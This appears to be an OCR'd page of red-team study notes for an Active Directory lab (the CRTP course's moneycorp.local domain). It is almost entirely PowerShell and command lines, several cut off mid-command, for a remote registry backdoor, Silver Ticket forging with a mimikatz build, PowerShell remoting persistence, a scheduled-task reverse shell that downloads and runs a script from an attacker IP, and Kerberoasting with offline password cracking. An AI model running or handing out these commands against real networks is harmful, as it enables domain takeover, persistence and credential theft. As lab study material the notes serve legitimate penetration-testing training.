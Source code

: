 ```powershell
. C:\AD\Tools\RACE.ps1
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee studentx -Verbose
# Now, we can retreive hash as studentx:
. C:\AD\Tools\RACE.ps1
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
# We can use the machine account hash to create Silver Tickets. Create Silver Tickets for HOST and RPCSS
# using the machine account hash to execute WMI queries:
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-37263
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-37263
# Run the below command:
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
Persistence - ACLs - Security Description - PowerShell Remoting
https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1
# On local machine for user:
Set-RemotePSRemoting -UserName <username> -Verbose
# On remote machine for <username> without credentials:
Set-RemotePSRemoting -UserName <username> -ComputerName DC-1 -Verbose
Persistence - schtasks (reverse shell)
# use the service HOST from Constrained Delegation
# run hfs
# Create a copy of Invoke-PowerShellTcp.ps1 and rename it to Invoke-PowerShellTcpEx.ps1.
# Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).
# Add "Power -Reverse -IPAddress 172.16.100.X -Port 443" (without quotes) to the
# end of the file
# Run the below command in the process where we injected the ticket for HOST service.
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object N
CRTP 17
# Start listiner on port 443 with nc64.exe
# Run the below command to execute the task
schtasks /Run /S mcorp-dc.moneycorp.local /TN "UserX"
Kerberoast
# Find user account used as Service accounts:
# PowerView
Get-NetUser -SPN
# ActiveDirectory module:
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
# Request a TGS
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:143
# Run klist to see all the ticket from the memory
klist
# save the tickets on the disk with mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
# use the below tool (Python tool) to offline crack the SPN hash
https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~sec.local
# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
# Use john de ripper to crack:
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins
# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credent
```
